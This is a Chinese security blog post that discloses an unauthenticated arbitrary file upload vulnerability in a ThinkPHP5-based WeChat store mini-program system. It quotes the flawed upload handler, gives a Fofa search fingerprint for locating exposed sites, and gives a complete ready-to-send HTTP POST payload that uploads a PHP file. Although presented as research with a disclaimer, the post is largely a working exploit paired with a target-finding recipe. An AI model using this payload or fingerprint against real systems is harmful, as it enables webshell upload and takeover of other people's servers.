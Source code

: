 #  某微信万能门店小程序系统存在前台任意文件上传漏洞   
原创 Mstir  星悦安全   2024-11-28 03:41  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
- █   
远山起风又起雾 无人知我来时路  
 █  
  
- **万能门店小程序DIY建站无限独立版非微擎应用，独立版是基于国内很火的ThinkPHP5框架开发的，适用于各行各业小程序、企业门店小程序！**  
  
- **万能门店微信小程序不限制小程序生成数量，支持多页面，预约功能等。 本套源码包含多商户插件、点餐插件、拼团插件、积分兑换、小程序手机客服等全套十个插件模块。**  
  
- **支持后台一键扫码上传小程序，和后台通用模板。**  
  
- **增加了：抖音/头条小程序，百度小程序，支付宝小程序，qq小程序，H5端**  
  
**Fofa指纹:**  
```
"/comhome/cases/index.html"
```  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eNYFEuuhHqEVQ5waZZ2ulOAQkmvWFZic2p7hrrbwQNmicEUjhvwJnNGJSLTQt0eRoJhThxicgozX74Q/640?wx_fmt=other&from=appmsg "")  
  
后台  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eNYFEuuhHqEVQ5waZZ2ulO8oicUdGjMgMtsynwsmn8vpbLibQeo8IndG8npvOW7ff0yISfWJjfoeuQ/640?wx_fmt=jpeg "")  
  
框架:ThinkPHP 5 Debug:False  
## 0x01 漏洞分析&复现  
  
**位于 /comadmin/controller/Remote.php 控制器中的onepic_uploade 方法存在通过File()函数上传文件，并且直接通过move()函数将文件移动到目标位置，导致漏洞产生.**  
```
//单个图片上传操作
function onepic_uploade($file){
  $thumb = request()->file($file);
  if(isset($thumb)){
    $dir = upload_img();
    $info = $thumb->move($dir); 
    if($info){  
      $imgurl = ROOT_HOST."/upimages/".date("Ymd",time())."/".$info->getFilename();
      return $imgurl;
    }  
  }
}
```  
  
**Payload:**  
```
POST /comadmin/Remote/onepic_uploade?file=file HTTP/1.1
Host: 127.0.0.1:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBiKyL9D0p5OtH5zz
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 195
------WebKitFormBoundaryBiKyL9D0p5OtH5zz
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg
<?php phpinfo();?>
------WebKitFormBoundaryBiKyL9D0p5OtH5zz--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5drqsvMIy57gvIyc01oUJOP60OCOicgzF9PXL4iarmLw81GDoibW2n9L2wUMqke70FUtcdXFGeU7ZNYA/640?wx_fmt=webp&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5drqsvMIy57gvIyc01oUJOPV1azTZ1tmSb9AJlvC99m140fDlnloMM3FZXXjEbPTOEAkHASzxAX8Q/640?wx_fmt=webp&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**万能门店源码关注公众号发送 241119 获取!**  
  
  
  
  
下方二维  
码添加好友，回复关键词   
**星悦安全**  
进群  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pPVXCo8Wd8CGA5xDtuNnCSVGd0ibW86zZaJ6tr5ib17xnMbupUibq24HQEl4gRoptsVgCBSNnwBEGmSn3a4ftXVzQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pPVXCo8Wd8AOzYX7kxefGbGGZg3g1ltkN30q9hceg23PiczgUqMT0EE9w0fLK9uw1eKWwQX9TljXQe1OQeHRZ2Q/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
  
